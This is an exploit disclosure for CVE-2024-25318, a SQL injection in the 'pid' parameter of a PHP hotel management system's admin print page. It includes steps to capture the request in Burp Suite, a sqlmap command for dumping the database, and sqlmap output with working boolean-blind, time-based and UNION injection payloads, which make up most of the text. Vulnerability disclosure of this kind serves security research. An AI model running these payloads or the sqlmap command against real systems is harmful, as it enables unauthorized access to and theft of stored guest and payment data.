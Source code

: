 # CVE-2024-25318 - Hotel Managment System - SQL Injection-3
+ *Exploit Title:* Hotel Managment System - SQL Injection-3
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-25318

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'pid' parameter in Hotel/admin/print.php?pid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click Payment section
+ Then click print button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/print.php?pid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```
+ Use sqlmap to exploit. In sqlmap, use 'pid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p pid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: pid=2' AND 5169=5169-- oWOU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=2' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))fHNg)-- hMZI

    Type: UNION query
    Title: Generic UNION query (NULL) - 15 columns
    Payload: pid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71706b7171,0x6a49484f71776552716856764a4b4e4b657a4a6875536347536d764350686357585a416475504944,0x7162717a71),NULL-- -
---
[18:59:12] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:59:12] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 030314](https://github.com/tubakvgc/CVEs/assets/74067343/87493805-0ed1-4938-8dc3-58062d9b0820)





  
